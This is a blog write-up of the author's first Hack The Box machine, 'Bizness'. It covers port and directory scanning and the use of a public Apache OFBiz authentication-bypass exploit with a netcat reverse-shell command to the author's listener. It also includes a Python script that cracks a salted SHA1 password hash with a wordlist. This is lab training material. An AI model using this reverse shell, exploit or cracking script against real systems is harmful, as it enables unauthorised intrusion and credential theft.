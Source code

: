 ```yaml
---
tagline: bizness
title: Bizness - My First HTB machine
description: My first HTB Machine and how I solved it
banner: /blog/biznessbanner.jpeg/
banner_alt: Banner of HTB
date: '2024-02-11'
---
```


## Starting up 🚀

I started by installing my ovpn files and running ```sudo openvpn /Users/vipin/Downloads/lab_qvipin.ovpn```. From there you should be ready to start your machine.

## Scanning for ports

- The first step typically for machines is running a **nmap** scan.

```bash:Terminal

❯ sudo nmap -sV 10.10.11.252
Password:
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-04 10:14 EST
Nmap scan report for 10.10.11.252
Host is up (0.054s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
80/tcp  open  http     nginx 1.18.0
443/tcp open  ssl/http nginx 1.18.0
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.64 seconds
```

- With this port scan we now know that 22, 80, & 443 is open.

## Accessing the website

- Entering 10.10.11.252 into our browser will give us a *ERR_CONNECTION_TIMED_OUT* error so to fix this running ```echo "TARGET_IP domain.htb" | sudo tee -a /etc/hosts``` and replacing the **TARGET_IP** with our IP and **domain.htb** with our domain allows us to access the website.

## Finding Vulnerabilities

- Upon accessing the website we see a normal website.

![Image showing the main page of bizness.htb](/blog/biznesspics/biznesspage1.png 'Fig.1')

- Towards the bottom we see the website is made with **Apache OFBiz**

![Image showing apache ofbiz](/blog/biznesspics/ApacheOFBIZ1.png 'Fig.2')

- Searching for vulnerabilities associated with **Apache OFBiz** we find [this Github repo](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass).

## Directory Busting

- To look for some directories in the site, I will be using Dirsearch

```bash:Terminal
❯ dirsearch -u https://bizness.htb/ --exclude-status 404

  _|. _ _  _  _  _ _|_    v0.4.3.post1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25
Wordlist size: 11460

Output File: /Users/vipin/reports/https_bizness.htb/__24-02-09_23-38-26.txt

Target: https://bizness.htb/

[23:38:26] Starting:
[23:38:30] 400 -  795B  - /\..\..\..\..\..\..\..\..\..\etc\passwd
[23:38:31] 400 -  795B  - /a%5c.aspx
[23:38:31] 302 -    0B  - /accounting  ->  https://bizness.htb/accounting/
[23:38:42] 302 -    0B  - /catalog  ->  https://bizness.htb/catalog/
[23:38:43] 302 -    0B  - /common  ->  https://bizness.htb/common/
[23:38:44] 302 -    0B  - /content  ->  https://bizness.htb/content/
[23:38:44] 302 -    0B  - /content/  ->  https://bizness.htb/content/control/main
[23:38:44] 302 -    0B  - /content/debug.log  ->  https://bizness.htb/content/control/main
[23:38:44] 200 -   34KB - /control/
[23:38:44] 200 -   34KB - /control
[23:38:44] 200 -   11KB - /control/login
[23:38:46] 302 -    0B  - /error  ->  https://bizness.htb/error/
[23:38:46] 302 -    0B  - /example  ->  https://bizness.htb/example/
[23:38:48] 302 -    0B  - /images  ->  https://bizness.htb/images/
[23:38:49] 302 -    0B  - /index.jsp  ->  https://bizness.htb/control/main
[23:38:59] 200 -   21B  - /solr/admin/
[23:38:59] 200 -   21B  - /solr/admin/file/?file=solrconfig.xml
[23:38:59] 302 -    0B  - /solr/  ->  https://bizness.htb/solr/control/checkLogin/

Task Completed
```

## Getting the User flag

- Looking inside accounting, we find a login page, but that seems to not matter right now.

![Image showing the login page of bizness.htb](/blog/biznesspics/loginbizness1.png 'Fig.2')

- Let's use that [PoC repo](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass) we found in the beginning..

```bash:Terminal 
└─$ python3 exploit.py --url https://bizness.htb --cmd "nc 10.10.14.35 6969 -e /bin/bash"
[+] Generating payload...
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
[+] Payload generated successfully.
[+] Sending malicious serialized payload...
[+] The request has been successfully sent. Check the result of the command.


### On another tab I am listening on port 6969

└─$ nc -lvnp 6969
listening on [any] 6969 ...
connect to [10.10.14.35] from (UNKNOWN) [10.10.11.252] 59388

``` 

- And now we have the user flag!

![Image showing the user flag](/blog/biznesspics/userflag1.png 'Fig.3')

## Getting the Root flag

- This is the most difficult part as we need to look for the Hash with the Salt, and this single handedly took almost an hour for this.

- I found the password in *c54d0.dat* 

![Image showing the password](/blog/biznesspics/rootpassword1.png 'Fig.4')

- Using the Python script below, I cracked the password

```python:Notepad

import hashlib
import base64
import os
from tqdm import tqdm

class PasswordEncryptor:
    def __init__(self, hash_type="SHA", pbkdf2_iterations=10000):
       
        self.hash_type = hash_type
        self.pbkdf2_iterations = pbkdf2_iterations

    def crypt_bytes(self, salt, value):

        if not salt:
            salt = base64.urlsafe_b64encode(os.urandom(16)).decode('utf-8')
        hash_obj = hashlib.new(self.hash_type)
        hash_obj.update(salt.encode('utf-8'))
        hash_obj.update(value)
        hashed_bytes = hash_obj.digest()
        result = f"${self.hash_type}${salt}${base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')}"
        return result

    def get_crypted_bytes(self, salt, value):
      
        try:
            hash_obj = hashlib.new(self.hash_type)
            hash_obj.update(salt.encode('utf-8'))
            hash_obj.update(value)
            hashed_bytes = hash_obj.digest()
            return base64.urlsafe_b64encode(hashed_bytes).decode('utf-8').replace('+', '.')
        except hashlib.NoSuchAlgorithmException as e:
            raise Exception(f"Error while computing hash of type {self.hash_type}: {e}")

hash_type = "SHA1"
salt = "d"
search = "$SHA1$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I="
wordlist = '/Users/vipin/tech/CTFs/wordlists/rockyou.txt'

encryptor = PasswordEncryptor(hash_type)

total_lines = sum(1 for _ in open(wordlist, 'r', encoding='latin-1'))

with open(wordlist, 'r', encoding='latin-1') as password_list:
    for password in tqdm(password_list, total=total_lines, desc="Processing"):
        value = password.strip()
        
        hashed_password = encryptor.crypt_bytes(salt, value.encode('utf-8'))
        
        if hashed_password == search:
            print(f'Found Password:{value}, hash:{hashed_password}')
            break  

```

![Image showing the cracked password](/blog/biznesspics/crackedpassword1.png 'Fig.5')

- And Voila!!!

![Image showing that i pwned it](/blog/biznesspics/biznesspwned.png 'Fig.6')